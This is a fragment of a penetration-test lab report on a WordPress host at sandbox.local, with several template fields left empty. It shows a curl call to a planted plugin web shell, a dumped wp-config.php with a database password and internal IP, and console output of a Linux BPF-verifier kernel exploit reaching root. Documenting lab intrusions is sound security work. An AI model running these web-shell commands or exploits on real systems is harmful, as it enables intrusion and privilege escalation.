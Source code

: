 ```
curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
```

- wp-config.php: found DB **username** and **passwd**.
    ```
    // ** MySQL settings - You can get this info from your web host ** //
    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress' );

    /** MySQL database username */
    define( 'DB_USER', 'wp' );

    /** MySQL database password */
    define( 'DB_PASSWORD', 'Lv9EVQq86cfi8ioWsqFUQyU' );

    /** MySQL hostname */
    define( 'DB_HOST', '10.5.5.11' );
    ```

---
#### Privilege Escalation

- Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation: https://www.exploit-db.com/papers/45010

**Vulnerability Exploited:**

**Vulnerability Explanation:**

It is possible to bypass the bpf verifier (verifier.c), load bpf code, and create a read/write primitive. The root cause of this vulnerability is improper arithmetic/sign-extention in the 'check_alu_op()' function located within verifier.c. The improper arithmetic makes it possible for sign extension to occur in either of the following cases:

**Vulnerability Fix:**

**Severity:**
 7.8 HIGH 

**Exploit Code:**
  [*] creating bpf map
  [*] sneaking evil bpf past the verifier
  [*] creating socketpair()
  [*] attaching bpf backdoor to socket
  [*] skbuff => ffff880038c3f500  
  [*] Leaking sock struct from ffff88003af5e180
  [*] Sock->sk_rcvtimeo at offset 472
  [*] Cred structure at ffff880038704600
  [*] UID from cred structure: 1000, matches the current: 1000
  [*] hammering cred structure at ffff880038704600
  [*] credentials patched, launching shell...
  #id
  uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(internet)

**Proof Screenshot Here:**
